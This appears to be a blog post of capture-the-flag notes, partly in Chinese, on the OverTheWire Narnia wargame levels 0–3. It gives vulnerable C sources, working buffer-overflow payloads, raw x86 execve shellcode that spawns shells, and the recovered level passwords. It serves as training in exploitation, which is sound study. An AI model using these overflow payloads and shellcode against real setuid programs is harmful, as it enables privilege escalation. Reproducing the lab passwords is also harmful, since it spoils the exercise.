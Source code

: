 ```yaml
---
layout: default
title: overthewire_wargames_notes_narnia
categories:
- C++
tags:
- C++
---
```

//Description:

//Create Date: 2020-02-25 15:42:55

//Author: channy

# overthewire_wargames_notes_narnia

[address](https://overthewire.org/wargames/narnia/)

> ssh -p2226 narnia0@narnia.labs.overthewire.org

## 1. 

```
narnia0@narnia:/narnia$ ls -lrht
total 108K
-r-sr-x--- 1 narnia1 narnia0 7.3K Aug 26 22:35 narnia0
-r--r----- 1 narnia0 narnia0 1.3K Aug 26 22:35 narnia0.c
-r-sr-x--- 1 narnia2 narnia1 7.2K Aug 26 22:35 narnia1
-r--r----- 1 narnia1 narnia1 1021 Aug 26 22:35 narnia1.c
-r-sr-x--- 1 narnia3 narnia2 5.0K Aug 26 22:35 narnia2
-r--r----- 1 narnia2 narnia2 1022 Aug 26 22:35 narnia2.c
-r-sr-x--- 1 narnia4 narnia3 5.6K Aug 26 22:35 narnia3
-r--r----- 1 narnia3 narnia3 1.7K Aug 26 22:35 narnia3.c
-r-sr-x--- 1 narnia5 narnia4 5.2K Aug 26 22:35 narnia4
-r--r----- 1 narnia4 narnia4 1.1K Aug 26 22:35 narnia4.c
-r-sr-x--- 1 narnia6 narnia5 5.5K Aug 26 22:35 narnia5
-r--r----- 1 narnia5 narnia5 1.3K Aug 26 22:35 narnia5.c
-r-sr-x--- 1 narnia7 narnia6 5.9K Aug 26 22:35 narnia6
-r--r----- 1 narnia6 narnia6 1.6K Aug 26 22:35 narnia6.c
-r-sr-x--- 1 narnia8 narnia7 6.4K Aug 26 22:35 narnia7
-r--r----- 1 narnia7 narnia7 2.0K Aug 26 22:35 narnia7.c
-r-sr-x--- 1 narnia9 narnia8 5.1K Aug 26 22:35 narnia8
-r--r----- 1 narnia8 narnia8 1.3K Aug 26 22:35 narnia8.c
```

c语言的编译器在分配内存时，不只是按照变量的定义顺序来分配的，而且还参考了变量的类型。

这个程序读入24个字节的字符串放到BUF里，  多余的4个字节就会覆盖VAL，   进而改变VAL的值

```
narnia0@narnia:/narnia$ python -c 'print "a"*20 + "\xef\xbe\xad\xde" + "\x80" '
aaaaaaaaaaaaaaaaaaaaﾭހ
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaﾭހ
buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae

//但是用python3就不行哦～
narnia0@narnia:/narnia$ python3 -c 'print("a"*20 + "\xef\xbe\xad\xde" + "\x80")'
aaaaaaaaaaaaaaaaaaaaï¾­Þ
```

## 2. shellcode, export临时环境变量

[常用shellcode](http://shell-storm.org/shellcode/)

对于本题，用[Linux/x86 - execve(/bin/dash) - 49 bytes by Chroniccommand](http://shell-storm.org/shellcode/files/shellcode-756.php)

```narnia1.c
#include <stdio.h>
 
int main(){
    int (*ret)();
 
    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }   
 
    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();
 
    return 0;
}
```

```
narnia1@narnia:/narnia$ export EGG=$'\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43'
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

## 3. 输入超长字符串覆盖返回地址

```narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

[reference](https://bbs.pediy.com/thread-252827.htm)

```
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print "\x90"*94+"\xeb\x18\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x8d\x4e\x08\x89\x46\x0c\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"+"\x50\xd8\xff\xff"') 
$ whoami 
narnia3 
$ cat /etc/narnia_pass/narnia3 
vaequeezee 
```

## 4.

```narnia3.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
``` 



[back](/)

